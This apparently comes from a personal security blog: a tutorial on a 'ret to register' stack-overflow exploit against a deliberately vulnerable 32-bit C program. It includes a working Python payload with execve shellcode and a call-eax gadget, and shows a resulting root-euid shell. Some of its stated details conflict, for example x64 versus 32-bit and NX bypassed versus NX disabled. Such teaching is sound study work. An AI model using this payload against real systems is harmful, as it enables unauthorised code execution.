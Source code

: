 ```yaml
---
layout: post
title: "[ROP] Ret to register"
categories: [pwn]
tags: [pwn, ROP]
description: How to bypass NX/ASLR protections using "ret to register" attack on a x64 Linux system.
---
```


Tools:
1. objdump
2. ROPgadget

Binary protection:
1. ASLR

Compilation: Dynamic

Architecture: x86

Operating System: Linux (Debian)

# 1. Explanation
Today I will show you an other method to exploit Return Oriented Programming. It name is "ret to register". Thanks to register we will be able to execute a shellcode.

In assemby language (x86/x64) when we call a function, his return value is stored in the RAX/EAX register. For exemple, the strcpy return a pointer to the destination string. It means that if we overflow the saved "RIP/EIP" register with a gadget like "call eax/jmp eax" we will jump to the stack wich contain us shellcode !

This method is very usefull but it needed to have the NX bit disable.

# 2. Vulnerable binary
```c
#include <string.h>

// gcc main.c -z execstack -fno-stack-protector -m32

char *vuln(char *str)
{
  char buf[128];

  strcpy(buf, str);
}

int main(int ac, char **av)
{
  vuln(av[1]);
  return 0;
}
```

It's a very simple program that contain an overflow to the "strcpy" call. We will use the overflow to exploit this program.

# 3. The payload
The payload will look like:
```bash
+-----------------+
|    shellcode    |
+-----------------+
|     padding     |
+-----------------+
|    call eax     |
+-----------------+
```

The only things we need is the "call eax" gadget, always thanks to ROPgadget:
```bash
$ ROPgadget --binary a.out | grep "call eax"
...
0x08048363 : call eax
...
```

For the shellcode, I choose simple "execve('/bin/dash', NULL, NULL)", 38 bytes lenght.
And that's it for the payload !

The whole payload will look:
```python
#!/usr/bin/env python2.7

from struct import pack

#
# Shellcode execve("/bin/dash", NULL, NULL) (38 bytes)
#

shellcode = "\xeb\x18\x5e\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46\x0c\xb0\x0b\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"

payload = shellcode + '\x90' * 102 # Padding

payload += pack("<I", 0x08048363) # call eax

print payload
```

# 4. Exploitation
We test our payload:
```bash
$ ./a.out $(python rop.py)
id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)
```

Done.
